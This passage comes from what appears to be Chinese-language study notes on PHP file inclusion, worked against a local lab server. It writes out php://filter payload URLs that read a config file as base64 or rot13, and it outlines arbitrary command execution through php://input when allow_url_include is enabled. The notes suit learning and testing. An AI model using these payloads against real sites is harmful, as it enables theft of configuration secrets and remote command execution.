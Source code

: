 - php://filter协议获取文件base64编码

<p>


-     http://192.168.10.77/include.php/?file=php://filter/read=convert.base64-encode/resource=./config/config.inc.php

    

- 解码即可获取文件内容
  ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-15-53-35.png)

<p>


- php://filter协议获取文件rot13编码

<p>


-     http://192.168.10.77/include.php/?file=php://filter/read/string.rot13/resource=./config/config.inc.php

    ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-15-59-37.png)

- 如果页面没显示可以查看源代码，解码即可
  ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-16-02-01.png)

## php://input协议文件包含

**利用**

- 访问原始数据的只读流，接收请求体post参数作为代码任意命令执行

**前提条件**

- php配置文件php.ini中参数allow_url_include = On (默认配置是Off的状态)

**任意命令执行**

- php://input协议

<p>


- bp改包
  ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-16-12-40.png)

- 效果如下
  ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-16-13-25.png)

- 执行获取文件内容命令
  ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-16-17-06.png)

- 效果如下
  ![](D:\icq\t0m4to.github.io\docs\img\文件包含\2022-05-28-16-18-05.png)
